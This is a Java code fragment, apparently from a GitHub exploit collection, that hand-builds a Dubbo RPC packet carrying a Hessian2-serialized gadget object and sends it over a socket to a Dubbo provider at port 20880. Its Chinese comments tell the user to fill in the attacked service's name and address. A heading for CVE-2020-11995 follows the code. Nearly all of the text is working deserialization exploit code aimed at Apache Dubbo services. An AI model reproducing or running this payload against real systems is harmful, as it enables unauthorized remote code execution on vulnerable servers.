 ```java

Object tbl = Array.newInstance(nodeC, 2);
Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
Reflections.setFieldValue(s, "table", tbl);

ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

// header.
byte[] header = new byte[16];
// set magic number.
Bytes.short2bytes((short) 0xdabb, header);
// set request and serialization flag.
header[2] = (byte) ((byte) 0x80 | 2);

// set request id.
Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

out.writeUTF("2.0.2");
//todo 此处填写注册中心获取到的service全限定名、版本号、方法名
out.writeUTF("com.threedr3am.learn.server.boot.DemoService");
out.writeUTF("1.0");
out.writeUTF("hello");// out.writeUTF("$invoke");
//todo 方法描述不需要修改，因为此处需要指定map的payload去触发
out.writeUTF("Ljava/util/Map;");
out.writeObject(s);
out.writeObject(new HashMap());

out.flushBuffer();
if (out instanceof Cleanable) {
  ((Cleanable) out).cleanup();
}

Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
byteArrayOutputStream.write(header);
byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

byte[] bytes = byteArrayOutputStream.toByteArray();

//todo 此处填写被攻击的dubbo服务提供者地址和端口
Socket socket = new Socket("127.0.0.1", 20880);
OutputStream outputStream = socket.getOutputStream();
outputStream.write(bytes);
outputStream.flush();
outputStream.close();
```

## CVE-2020-11995
